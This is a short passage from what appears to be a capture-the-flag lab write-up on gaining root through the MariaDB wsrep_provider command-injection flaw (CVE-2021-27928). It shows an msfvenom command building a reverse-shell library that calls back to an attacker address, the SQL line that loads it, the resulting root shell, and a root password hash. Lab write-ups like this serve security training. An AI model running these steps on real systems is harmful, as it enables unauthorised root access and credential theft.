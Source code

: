 [CVE-2021-27928 : A remote code execution issue was discovered in MariaDB 10.2 before 10.2.37, 10.3 before 10.3.28, 10.4 before 10.4.18, a](https://www.cvedetails.com/cve/CVE-2021-27928/)

> An untrusted search path leads to eval injection, in which a database SUPER user can execute OS commands after modifying wsrep_provider and wsrep_notify_cmd.

There’s a POC already available to exploit this vulnerability.

[GitHub - Al1ex/CVE-2021-27928: CVE-2021-27928 MariaDB/MySQL-'wsrep provider' 命令注入漏洞](https://github.com/Al1ex/CVE-2021-27928)

```
⛩\> msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=9002 -f elf-so -o exploit.so
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 74 bytes
Final size of elf-so file: 476 bytes
Saved as: exploit.so
```

Upload this file to target machine. There are two ways to exploit this, but below one worked for me to get root shell. Login into DB and execute the below command.

```
MariaDB [zabbix]> SET GLOBAL wsrep_provider="/tmp/exploit.so";
```

Make sure to setup a netcat listener.

```
root@shibboleth:/var/lib/mysql# id
uid=0(root) gid=0(root) groups=0(root)
```

```
root:$6$HeRqkRJL9pttp4EY$TBE4vztPy9lOaywPhVdhQHwiPa09s7RJw418EMjmS0RKea/1QBwLqTHK84ato5yDBF59dMvSNbQQ1pVy.K1dp.:18741:0:99999:7:::
```
